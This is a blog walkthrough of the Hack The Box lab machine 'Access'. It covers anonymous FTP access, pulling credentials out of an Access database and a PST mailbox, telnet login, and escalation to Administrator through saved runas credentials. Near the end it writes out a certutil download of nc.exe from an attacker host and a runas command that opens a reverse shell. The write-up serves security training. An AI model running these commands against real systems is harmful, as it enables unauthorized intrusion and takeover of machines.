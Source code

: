 ```yaml
---
layout: post
title: Hack The Box - Access
categories: hack-the-box
image: /hackthebox/access/0.png
---
```


<hr>
### Quick Summary 
#### Hey guys today Access retired and this is my write-up. I don't have too much to say about this box , It was a nice easy windows box and a good example of using `runas` in windows , Which is like `sudo` in linux and `doas` in openbsd (we used `doas` in [Ypuffy](/hack-the-box/ypuffy)). It's a windows box and its ip is 10.10.10.98 , I added it to `/etc/hosts` as `access.htb`
![](/images/hackthebox/access/0.png)
<hr>
### Nmap
#### As always we will start with nmap to scan for open ports and services :
`nmap -sV -sT -sC access.htb`
![](/images/hackthebox/access/1.png)
#### Nmap tells us that there's ftp running on port 21 , telnet on port 23 and http on port 80. It also tells us that we can login anonymously to ftp. Let's look at http first.
<br>
<hr>
### HTTP Enumeration 
#### We get this page titled as "MegaCorp" and it only has this image :
![](/images/hackthebox/access/2.png)
#### Sub directories enumeration with `gobuster` and `common.txt` (`/usr/share/wordlists/dirb/common.txt` in kali) only gave us 2 pages , `/aspnet_client` and `/index.html` 
![](/images/hackthebox/access/3.png)
#### `/aspnet_client` gave us `403` Forbidden :
![](/images/hackthebox/access/4.png)
#### And `/index.html` is of course the main page we saw earlier :
![](/images/hackthebox/access/5.png)
#### So now we know that http has nothing , Next thing to check is ftp
<br>
<hr>
### FTP Enumeration
#### Nmap told us earlier that anonymous login on ftp was allowed , After we login we find 2 directories `Backups` and `Engineer`
![](/images/hackthebox/access/6.png)
#### In `Backups` there is only one file called `backup.mdb` , we will type `binary` to set the transfer mode to binary , so we won't get a corrupted file. Then `get backup.mdb` to download it :
![](/images/hackthebox/access/7.png)
#### And in `Engineer` there's a file called `Access Control.zip` :
![](/images/hackthebox/access/8.png)
<hr>
### Extracting credentials from backup.mdb and getting User
#### `backup.mdb` is a Microsoft Access Database , we can check using `file` :
![](/images/hackthebox/access/9.png)
#### We need mdbtools to deal with this database , it can be installed with `apt`
`apt-get install mdbtools`
#### We will use `mdb-tables` to get the table names : 
![](/images/hackthebox/access/10.png)
#### There's an interesting table named `auth_user` , We will use `mdb-export` to get the contents of that table :
`mdb-export backup.mdb auth_user`
![](/images/hackthebox/access/11.png)
#### And it gave us some credentials : 
`admin : admin`
<br>
<br>
`engineer : access4u@security`
<br>
<br>
`backup_admin : admin`
#### By looking at the other `zip` file we will find a file called `Access Control.pst` and it's a password protected file.
![](/images/hackthebox/access/12.png)
#### We already have 2 passwords : `admin` and `access4u@security`. `access4u@security` is the right password.
![](/images/hackthebox/access/13.png)
#### `Access Control.pst` is a Microsoft Outlook email folder : 
![](/images/hackthebox/access/14.png)
#### We can use a tool called `readpst` to be able to read the file :
`readpst Access\ Control.pst`
![](/images/hackthebox/access/15.png)
#### It will create another file called `Access Control.mbox` , Let's `cat` that file :
![](/images/hackthebox/access/16.png)
#### The very first thing we see is this email which has credentials for an account called `security` , password : `4CcessC0ntr0ller`
#### Let's `telnet` into the box with those credentials : 
`telnet access.htb`
![](/images/hackthebox/access/17.png)
#### And we owned user !
<br>
<hr>
### runas and Privilege Escalation
#### As always we will start enumerating the filesystem , There are only 3 users on the box `Administrator` , `Public` and `security`.
![](/images/hackthebox/access/18.png)
#### We are in as `security` and we can't go into Administrator's directory so let's check Public.
#### In the Desktop of `Public` there's a `lnk` called `ZKAccess3.5 Security System`.
![](/images/hackthebox/access/19.png)
#### Let's `type` it and see what's inside it :
![](/images/hackthebox/access/20.png)
#### Of course not the best output , because it's a `lnk` file not a `txt` file , but we can read some stuff , and we notice that there's a `runas` command being excuted as administrator. `runas` allows us to run commands as another user and the option `/savecred` allows us to use the command without asking for password. Looking into Public's desktop is not necessary to know that, we can check by executing `net user administrator`
![](/images/hackthebox/access/21.png)
#### `Password required` is set to `No` , If this was set to `Yes` we wouldn't be able to use `runas` as administrator without knowing the password , However that `lnk` file on Public's desktop was a nice hint.
#### Now we can run a simple HTTP server on our box with python and host `nc.exe` : `python -m SimpleHTTPServer 80` `80` is the port number and it can be anything 
#### You can get `nc.exe` from github [here](https://github.com/diegocr/netcat/blob/master/nc.exe) , I also remember that I included another link in [SecNotes write-up](/hack-the-box/secnotes)
#### Then we will download it on the box :
`certutil -urlcache -split -f http://10.10.xx.xx/nc.exe nc.exe`
![](/images/hackthebox/access/22.png)
#### After that we will set up our nc listener `nc -lvnp 1337` `1337` is the port number and it can be anything.
#### Finally we will use `runas` to get a reverse shell :
`runas /user:Administrator /savecred "nc.exe -c cmd.exe 10.10.xx.xx 1337"`
![](/images/hackthebox/access/23.png)
#### Let's check our listener :
![](/images/hackthebox/access/24.png)
#### We have a shell.
![](/images/hackthebox/access/25.png)
#### And we owned root !
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Hack The Box write-up : [Hack The Box - Zipper](/hack-the-box/zipper/)
<hr>
